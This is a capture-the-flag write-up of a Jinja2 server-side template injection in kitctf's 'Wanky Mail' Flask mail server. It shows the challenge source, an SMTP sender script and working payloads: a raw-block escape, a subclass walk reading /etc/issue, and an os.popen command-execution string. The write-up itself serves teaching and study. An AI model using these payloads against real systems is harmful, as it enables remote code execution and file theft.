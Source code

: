 ```yaml
---
layout: post
title:  "Template Injection Kitctf"
date:   2023-06-19 17:12:34 -0300
categories: [writeup]
tags: [writeup]
---
```



In this blog post, we will explore a specific template injection vulnerability discovered in a CTF (Capture The Flag) challenge from kitctf. We will delve into the details of the vulnerability. Let’s dive in!

> If you don’t know what is template injection, strong recoment that you visit the Burp labs https://portswigger.net/web-security/server-side-template-injection.

Brief introduction what is template injection. Template injection occurs when an application allows user-controlled input to be directly included in a template without proper sanitization or validation. This can lead to the execution of arbitrary code within the template context, potentially leading to remote code execution (RCE) or other critical security breaches.

### The challeger (Chall)
The chall was called “Wanky Mail”. Wanky Mail is a temporary mail server, which you could send and receive messages. The cool thing about kitctf is that they provide a Dockerfile for you to “build” the challenge on your machine, and also the source code!. Below is the code of the mail server:

```python
from flask import Flask, render_template_string, request, redirect, abort
from aiosmtpd.controller import Controller
from datetime import datetime
from base58 import b58decode, b58encode
import random 
import string
import os
from datetime import datetime
import queue

mails = {}
active_addr = queue.Queue(1000)

def format_email(sender, rcpt, body, timestamp, subject):
    return {"sender": sender, "rcpt": rcpt, 'body': body, 'subject': subject, "timestamp": timestamp}

def render_emails(address):
    id = 0
    render = """
    <table>
        <tr>
            <th id="th-left">From</th>
            <th>Subject</th>
            <th id="th-right">Date</th>
        </tr>
    """
    overlays = ""
    m = mails[address].copy()
    for email in m:

        render += f"""
        <tr id="{id}">
            <td>{email['sender']}</td>
            <td>{email['subject']}</td>
            <td>{email['timestamp']}</td>
        </tr>
        """
        overlays += f"""
        <div id="overlay-{id}" class="overlay">
            <div class="email-details">
                <h1>{email['subject']} - from: {email['sender']} to {email['rcpt']}</h1>
                <p>{email['body']}</p>
            </div>
        </div>
        """
        id +=1
    render += "</table>"
    render += overlays
    return render


def get_emails(id):
    with open('templates/index.html') as f:
        page = f.read()
        return page.replace('{{$}}', render_emails(id))

def log_email(session, envelope):
    print(f'{session.peer[0]} - - {repr(envelope.mail_from)}:{repr(envelope.rcpt_tos)}:{repr(envelope.content)}', flush=True)

def esc(s: str):
    return "{% raw %}" + s + "{% endraw %}"

class Handler:
     async def handle_RCPT(self, server, session, envelope, address, rcpt_options):
        if not address.endswith(os.environ.get('HOSTNAME')):
             return '550 not relaying to that domain'
        envelope.rcpt_tos.append(address)
        print(address, flush=True)
        return '250 OK'

     async def handle_DATA(self, server, session, envelope):
        m = format_email(esc(envelope.mail_from), envelope.rcpt_tos[0], esc(envelope.content.decode()), datetime.now().strftime("%d-%m-%Y, %H:%M:%S"), "PLACEHOLDER")
        log_email(session, envelope)
        r = envelope.rcpt_tos[0]
        if not mails.get(r):
            if active_addr.full():
                mails.pop(active_addr.get())
            mails[r] = []
            active_addr.put(r)
        if len(mails[r]) > 10:
            mails[r].pop(0)
        mails[r].append(m)
        return '250 OK'

c = Controller(Handler(), "0.0.0.0")
c.start()


app = Flask(__name__)
@app.route('/')
def index():
    username = ''.join(random.choice(string.ascii_lowercase) for i in range(12))
    address = f"{username}@{os.environ.get('HOSTNAME', 'example.com')}"
    if not address in mails.keys():
        if active_addr.full():
            del mails[active_addr.get()]
        mails[address] = []
        active_addr.put(address)
    id = b58encode(address).decode()
    return redirect("/" + id)

@app.route('/<id>')
def mailbox(id):
    address = b58decode(id).decode()
    if not address in mails.keys():
        abort(404)    
    return render_template_string(get_emails(address), address=address)

if __name__ == '__main__':
    app.run()

```

### Analyzing the code
Analyzing the code we can identify that when sending an email to our temporary email, the code uses an escape function to render the email, as illustrated below:

```python
def esc(s: str):
    return "{% raw %}" + s + "{% endraw %}"

class Handler:
     async def handle_RCPT(self, server, session, envelope, address, rcpt_options):
        if not address.endswith(os.environ.get('HOSTNAME')):
             return '550 not relaying to that domain'
        envelope.rcpt_tos.append(address)
        print(address, flush=True)
        return '250 OK'

     async def handle_DATA(self, server, session, envelope):
        m = format_email(esc(envelope.mail_from), envelope.rcpt_tos[0], esc(envelope.content.decode()), datetime.now().strftime("%d-%m-%Y, %H:%M:%S"), "PLACEHOLDER")
        log_email(session, envelope)
        r = envelope.rcpt_tos[0]
        if not mails.get(r):
            if active_addr.full():
                mails.pop(active_addr.get())
            mails[r] = []
            active_addr.put(r)
        if len(mails[r]) > 10:
            mails[r].pop(0)
        mails[r].append(m)
        return '250 OK'

c = Controller(Handler(), "0.0.0.0")
c.start()

```

So as you can see, in the code, every time someone sends an email, the “subject” and “content” fields execute the esc() function. To use the temporary email service, kitctf people provided some information to use the email server, to use the service, I made the following code in python to send emails using the smtplib library. As the following code demonstrates:


```python

import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart


sender_email = 'abx@kitctf.de'
receiver_email = 'abx@kitctf.de'
subject = 'pewpew'
message = 'pewpew'


msg = MIMEMultipart()
msg['From'] = sender_email
msg['To'] = receiver_email
msg['Subject'] = subject

msg.attach(MIMEText(message, 'plain'))


smtp_server = 'mailserver-from-kitctf'
smtp_port = 8025

with smtplib.SMTP(smtp_server, smtp_port) as server:
    server.sendmail(sender_email, receiver_email, msg.as_string())

```

The first step was to send a test code, in the subject field, with the objective of circumventing the esc() function, the payload {{7*7}} was used:

![](/images/kitctf-1.png)

![](/images/kitctf-2.png)

The next step was to try to run commands using the command 'incogbyte'.__class__.__base__.__subclasses__()[92].__subclasses__()[0].__subclasses__()[0]('/etc/issue').read():

![](/images/kitctf-3.png)

The next step was to execute the payload to list the files contained in the machine, the following payload was used {{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}.

![](/images/kitctf-4.png)

![](/images/kitctf-5.png)

> All payloads had to be between {% endraw %} (% raw %}. Example: {% endraw %} {{ 7*7 }} {% raw %}, this was necessary to bypass the esc() function.

